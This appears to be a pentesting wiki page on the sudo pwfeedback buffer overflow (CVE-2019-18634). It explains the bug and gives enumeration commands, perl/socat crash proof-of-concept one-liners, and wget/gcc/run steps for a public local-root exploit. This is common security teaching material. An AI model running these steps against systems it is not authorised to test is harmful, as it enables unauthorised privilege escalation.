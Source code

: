 ```yaml
---
description: CVE-2019-18634
---
```


# Pwfeedback BOF

## Theory

Sudo’s pwfeedback option can be used to provide visual feedback when the user is inputting their password. For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard `Password:` prompt disables the echoing of key presses. While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.

The vulnerability affect sudo versions **1.7.1** to **1.8.30**.

{% hint style="danger" %}
Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled. The bug can be reproduced by passing a large input with embedded terminal kill characters to sudo from a pseudo-terminal
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To exploit, sudo version must be vulnerable (**1.7.1** to **1.8.30**)

```bash
$ sudo -V
Sudo version 1.8.30
```

Pwfeedback must be enabled. You may verify it with `sudo -l`. If pwfeedback is listed in the “Matching Defaults entries” output, the sudoers configuration is affected.

```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, pwfeedback, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) /usr/bin/python3 /opt/custom/service.py
```

To check the exploitability of sudo, you may run the following commands. If it's returns a `Segmentation fault` error message, then it’s vulnerable.

```bash
$ socat pty,link=/tmp/pty,waitslave exec:"perl -e 'print((\"A\" x 100 . chr(0x15)) x 50)'" &
$ sudo -S -k id < /tmp/pty
Password: Segmentation fault (core dumped)
```

For sudo versions prior to 1.8.26, and on systems with uni-directional pipes, reproducing the bug is simpler.

```bash
$ perl -e 'print(("A" x 100 . chr(0)) x 50)' | sudo -S -k id
Password: Segmentation fault (core dumped)
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [exploit](https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c) written by Saleem Rashid.

```bash
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
./exploit
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://www.sudo.ws/security/advisories/pwfeedback/" %}

